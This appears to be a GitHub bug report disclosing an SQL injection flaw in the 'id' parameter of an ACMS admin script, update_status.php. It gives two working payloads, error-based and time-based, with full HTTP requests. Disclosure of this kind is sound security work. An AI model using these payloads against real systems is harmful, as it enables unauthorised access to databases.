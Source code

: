BUG_Author: 133233

Vulnerability File: /acms/admin/transactions/update_status.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 2 from(select count(*),concat(0x31323334,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- b

```
GET /acms/admin/transactions/update_status.php?id=1%27%20and%20(select%202%20from(select%20count(*),concat(0x31323334,(select%20(elt(666=666,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=are40ekvnvt703bn5uuua9d5qv
Connection: close
```

Injection success based on errors

![image](https://github.com/333123www/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(10)))a)-- b

```
GET /acms/admin/transactions/update_status.php?id=1%27%20and%20(select%202%20from%20(select(sleep(10)))a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=are40ekvnvt703bn5uuua9d5qv
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/333123www/bug_report/blob/main/sql2.png)
